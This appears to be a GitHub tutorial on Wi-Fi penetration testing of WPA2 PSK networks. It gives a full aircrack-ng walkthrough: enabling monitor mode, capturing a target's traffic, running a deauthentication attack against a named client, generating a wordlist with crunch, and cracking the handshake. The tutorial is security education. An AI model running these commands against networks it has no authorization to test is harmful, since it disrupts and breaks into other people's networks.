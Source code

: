 ## Overview

- **Wireless Pentesting**: It's about checking how safe a Wi-Fi network is, whether it's a home network with a password (WPA2 PSK) or a business one with a more complex security setup (WPA2 Enterprise).

- **What's Done**:
  - Testing how strong the Wi-Fi password is.
  - Looking at nearby networks to find any security issues.
  - Checking if guest networks have weak spots.
  - Making sure only the right devices can get on the network.

- **Tools Needed**:
  - Wireless card: This helps see what's happening on the network.
  - Router: This is the main device giving out Wi-Fi.
  - Laptop: You use this to run different tests and commands.

- **Steps (for WPA2 PSK)**:
  1. **Put Wireless Card in Monitor Mode**: So it can see all the data going through the air.
  2. **Find Network Info**: Get details like which Wi-Fi channel it's on and its unique ID (BSSID).
  3. **Pick Network & Save Data**: Choose the network you're checking and start saving the data it sends.
  4. **Kick Devices Off**: Make devices disconnect from the Wi-Fi, which helps capture important security info.
  5. **Grab Wi-Fi Password Handshake**: This is needed to try to guess the password later.
  6. **Try to Guess the Password**: Use different methods to figure out the Wi-Fi password from the captured data.

## Walkthrough

```shell
# Connect wireless card to laptop
# Ensure connection by checking wireless interfaces
iwconfig

# If wlan0 is shown, it's connected
# Currently in managed mode; switch to monitor mode
sudo airmon-ng check kill  # Kill interfering processes
sudo airmon-ng start wlan0  # Start monitor mode on interface
iwconfig  # Check if wlan0mon is active

sudo airodump-ng wlan0mon
# Search for networks and stop after identifying the target network

sudo airodump-ng -c 11 --bssid 74:D2:1D:A4:82:5A -w capture wlan0mon
# -c for channel, --bssid for BSSID, -w for capture filename
# Capture handshake by running deauthentication attack

# In a new tab
sudo aireplay-ng -0 1 -a 74:D2:1D:A4:82:5A -c BC:6A:D1:81:5C:8B wlan0mon
# -a for access point, -c for station to deauthenticate
# Helps capture handshake

ls
# Check for capture files

# Generate wordlist using crunch
crunch 8 8 -t %@aaaa@% -o samplewordlist.txt
# 8-letter password, % for numbers and @ for lowercase characters

# To crack handshake
aircrack-ng -w samplewordlist.txt -b 74:D2:1D:A4:82:5A capture-01.cap
# -b for access point MAC address, .cap file contains the handshake to be cracked
```